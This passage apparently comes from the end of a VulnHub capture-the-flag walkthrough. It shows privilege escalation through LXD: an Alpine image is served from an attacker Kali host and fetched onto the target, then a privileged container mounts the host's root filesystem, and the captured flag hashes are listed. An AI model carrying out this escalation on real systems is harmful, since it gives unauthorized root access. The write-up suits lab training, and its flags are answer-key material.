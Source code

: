 ```bash
wget --no-parent -r https://us.lxd.images.canonical.com/images/alpine/3.15/amd64/default/20220720_13:00/
cd us.lxd.images.canonical.com/images/alpine/3.15/amd64/default/20220720_13:00/
find . -name '*html*' -delete
tar -cvf alpine.tar ./*
```

### Transfer to the Target

Initiate a web server to transfer the image to the target

```bash
sudo python3 -m http.server 80
```

On the target, we download the alpine.tar file from Kali and extract it

```bash
wget http://kali.cyber.range/alpine.tar
mkdir alpine
tar -xvf alpine.tar -C alpine
cd alpine
```

### Import the Container Image Manually

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxd init
lxc init alpine alpinect -c security.privileged=true
lxc config device add alpinect pwndisk disk source=/ path=/mnt/root recursive=true
lxc start alpinect
lxc exec alpinect /bin/sh
```

Note that while running lxd init, the default options can be used by simply pressing the Enter key multiple times. Additionally, it should be noted that the host's disk is mounted at /mnt/root.

![](../../assets/img/vulnhub/mis7.png)

### Flags

>**Brexit**

```
404b9193154be7fbbc56d7534cb26339
```
{: nolineno }


>**Root**

```
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```
{: nolineno }